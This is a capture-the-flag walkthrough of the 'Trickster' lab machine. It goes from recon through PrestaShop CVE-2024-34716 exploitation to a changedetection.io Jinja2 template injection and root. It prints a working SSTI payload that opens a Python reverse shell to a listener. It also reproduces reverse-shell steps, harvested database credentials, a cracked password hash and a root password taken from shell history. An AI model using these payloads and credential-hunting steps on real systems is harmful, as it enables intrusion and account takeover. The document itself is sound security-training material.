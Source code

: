 1,Recon
port scan 
	22/tcp ssh `OpenSSH 8.9p1 Ubuntu 3ubuntu0.10`
	80/tcp http `Apache httpd 2.4.52`

Page check
![](images/Pasted%20image%20202409220211111.png)
By press the shop button, it would redirect to `http://shop.trickster.htb`

![](images/Pasted%20image%2020240922021800.png)

Then we can find the login page.
![](images/Pasted%20image%2020240922022017.png)
In this place, we did not have the valid credit, so we can try to create a account and check the `[PrestaShop™]` version.
And we have found the admin account email
```
Store information

Trickster Store  
United States  
Email us: [admin@trickster.htb](mailto:admin@trickster.htb)
```
But when we login successfully there is still nothing useful for us.
Then I want to try some existed vulnerability from exploit-db 
`Prestashop 1.7.7.0 - 'id_product' Time Based Blind SQL Injection`
But it seems not be our target.

Then I would want to check the other web-content.
```
ffuf -u http://shop.trickster.htb/FUZZ -w /usr/share/wordlists/dirb/common.txt -fc 403

.git/HEAD               [Status: 200, Size: 28, Words: 2, Lines: 2, Duration: 32ms]
```
Then I found the `.git` and we can use `git-dumper`to download to local machine
`git-dumper http://shop.trickster.htb/.git/ ./git-repo-dump`
Then we can check this git repository:
![](images/Pasted%20image%2020240922024524.png)
The directory `admin634ewutrx1jgitlooaj` looks interesting.
Then let's check it from browser
`http://shop.trickster.htb/admin634ewutrx1jgitlooaj/`
![](images/Pasted%20image%2020240922024721.png)
We get the version `PrestaShop 8.1.5` and let's check its vulners.
```
CVE-2024-34716 – The Deceptive PNG Trap: Breaking Down the PNG-Driven Chain from XSS to Remote Code Execution on PrestaShop (<=8.1.5)
https://ayoubmokhtar.com/post/png_driven_chain_xss_to_remote_code_execution_prestashop_8.1.5_cve-2024-34716/
```
`https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php`

When we get the totally shit poc, we need to change it by ourselves.
Then we can run it  and open the `http.server`
```
python3 -m http.server 80

python3 exploit.py
[?] Please enter the URL (e.g., http://prestashop:8000): http://shop.trickster.htb
[?] Please enter your email: wither@trickster.htb
[?] Please enter your message: hello
[?] Please provide the path to your HTML file: ./exploit.html
[X] Yay! Your exploit was sent successfully!
[X] Once a CS agent clicks on attachement, you'll get a SHELL
```
Then we can get the shell as www-data:
```
connect to [10.10.16.15] from (UNKNOWN) [10.10.11.34] 52956
Linux trickster 5.15.0-121-generic #131-Ubuntu SMP Fri Aug 9 08:29:53 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 08:18:29 up  2:46,  1 user,  load average: 0.10, 0.11, 0.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
james    pts/0    10.10.16.15      07:41    3:41   0.07s  0.07s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

we can make a stable shell by python
```
upgrade to PTY
python3 -c 'import pty;pty.spawn("bash")'
^Z
stty raw -echo; fg
```

When we get the shell, we need to enumerate the files and switch to the valid user shell
There is a config file with valid credit
```
/var/www/prestashop/app/config/parameters.php

'database_host' => '127.0.0.1',
    'database_port' => '',
    'database_name' => 'prestashop',
    'database_user' => 'ps_user',
    'database_password' => 'prest@shop_o',
    'database_prefix' => 'ps_',
    'database_engine' => 'InnoDB',
```

The  connect to mysql
```
use prestashop
select * from ps_employee;
james@trickster.htb | $2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm
```

crack james hash => password:`alwaysandforever`
Then we can use ssh to login james shell.

3,shell as root
Fristly we would be like check `sudo -l`
`Sorry, user james may not run sudo on trickster.`

Then we would continue check the `ifconfig` and `netstat`
```
ifconfig

docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:75:61:fe:5d  txqueuelen 0  (Ethernet)
        RX packets 75763  bytes 6661585 (6.6 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 326059  bytes 16805840 (16.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.34  netmask 255.255.254.0  broadcast 10.10.11.255
        ether 00:50:56:b9:5d:9a  txqueuelen 1000  (Ethernet)
        RX packets 2183172  bytes 239295902 (239.2 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1479464  bytes 410014126 (410.0 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

netstat -ntlp

tcp 127.0.0.1:39345 
tcp 0.0.0.0:22 ssh
tcp 0.0.0.0:80 http
tcp 127.0.0.1:3306 mysql
```

In this place we found we have `docker ip` but we did not in the docker.So we guess there would be another docker service.But james is not in docker group
`uid=1000(james) gid=1000(james) groups=1000(james)`

So let's just check it by `ping` and `curl`.
```
ping 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.057 ms
64 bytes from 172.17.0.2: icmp_seq=2 ttl=64 time=0.051 ms
64 bytes from 172.17.0.2: icmp_seq=3 ttl=64 time=0.053 ms
^C
--- 172.17.0.2 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2040ms
rtt min/avg/max/mdev = 0.051/0.053/0.057/0.002 ms

curl 172.17.0.2
curl: (7) Failed to connect to 172.17.0.2 port 80 after 0 ms: Connection refused

```
That means there is another docker container exist but we did not know which port or service.
Let's make a bash script to check which port is open 
```
#!/bin/bash

# IP address
IP="172.17.0.2"

# Start and end port numbers
START_PORT=1
END_PORT=10000

# Loop to check the port range
for PORT in $(seq $START_PORT $END_PORT); do
  # Use curl to check the port
  curl --connect-timeout 1 $IP:$PORT > /dev/null 2>&1
  
  if [ $? -eq 0 ]; then
    echo "Port $PORT is open on $IP."
  fi
done

or just use nmap the 172.17.0.*
```

Then we get the target:
```
curl 172.17.0.2:5000
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/login?next=/">/login?next=/</a>. If not, click the link.
```

Let's use ssh to port forwarding
`ssh james@trickster.htb -L 5000:172.17.0.2:5000`
![](images/Pasted%20image%2020240922034210.png)
We have its version `changedetection.io v0.45.20`
Then we can search the exploit-db
`changedetection < 0.45.20 - Remote Code Execution (RCE)`

Of course, we can use james credit to login.

For triggering launch of Root PoC:
1,start a web-server on the machine "python3 -m http.server 8000"
2,On  the changedetect.io site "Add New Change" enter the URL http://172.17.0.1:8000" && "Edit > Watch"
![](images/Pasted%20image%2020240922040829.png)

3,Set the Notification Url to `"get://<attacker-ip>" `&& the Notification Body to the one from the PoC except change your to your IP & Port"

In this place, because of the jinja format, we can get the payload from `HackTricks`

`Body for all notifications ‐ You can use [Jinja2](https://jinja.palletsprojects.com/en/3.0.x/templates/) templating in the notification title, body and URL, and tokens from below.`

```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{ x()._module.__builtins__['__import__']('os').popen("python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"listen_ip\",listen_port));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"/bin/bash\")'").read() }}{% endif %}{% endfor %}
```

4, Then we just need to open nc to handle it and press the `Send test notification` .
Then get the container shell, check the `.bash_histroy`
```
root@ae5c137aa8ef:~# cat .bash_history
cat .bash_history
apt update
#YouC4ntCatchMe#
apt-get install libcap2-bin
capsh --print
clear
capsh --print
cd changedetectionio/
```
Then we can see the really liked password `#YouC4ntCatchMe#`

Come to james shell, and su root. 
Get the root shell.

